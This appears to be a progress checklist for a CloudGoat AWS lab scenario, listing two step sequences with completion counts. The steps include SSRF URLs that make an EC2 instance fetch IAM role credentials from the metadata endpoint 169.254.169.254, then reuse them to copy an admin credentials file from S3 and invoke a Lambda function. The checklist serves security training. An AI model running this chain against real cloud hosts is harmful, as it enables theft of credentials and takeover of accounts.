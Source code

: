 # Relative path

- [ ] aws configure --profile solus
- [ ] aws lambda list-functions --profile solus
- [ ] aws configure --profile cglambda
- [x] http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name\>
- [x] Then Add the EC2 instance credentials to your AWS CLI credentials file at ~/.aws/credentials) // Implicit: Assume role
- [x] aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-\<cloudgoat_id\>/admin-user.txt ./
- [x] aws configure --profile cgadmin
- [ ] aws lambda invoke --function-name cg-lambda-<cloudgoat_id> ./out.txt

Steps: 8
Completed: 4

# Absolute path

- [ ] aws configure --profile solus
- [ ] aws lambda list-functions --profile solus
- [ ] aws configure --profile cglambda
- [ ] aws ec2 describe-instances --profile cglambda
- [x] Go to http://<EC2 instance IP\> // Access
- [x] http://<EC2 instance IP\>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ //SSRF
- [x] http://<EC2 instance IP\>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name\> //Exploit step
- [x] Then Add the EC2 instance credentials to your AWS CLI credentials file at ~/.aws/credentials) // Implicit: Assume role
- [ ] aws s3 ls --profile cgec2role
- [ ] aws s3 ls --profile cgec2role s3://cg-secret-s3-bucket-\<cloudgoat_id\>
- [x] aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-\<cloudgoat_id\>/admin-user.txt ./
- [ ] cat admin-user.txt
- [x] aws configure --profile cgadmin
- [ ] aws lambda list-functions --profile cgadmin
- [ ] aws lambda invoke --function-name cg-lambda-\<cloudgoat_id\> ./out.txt
- [ ] cat out.txt

Steps: 16
Completed: 6

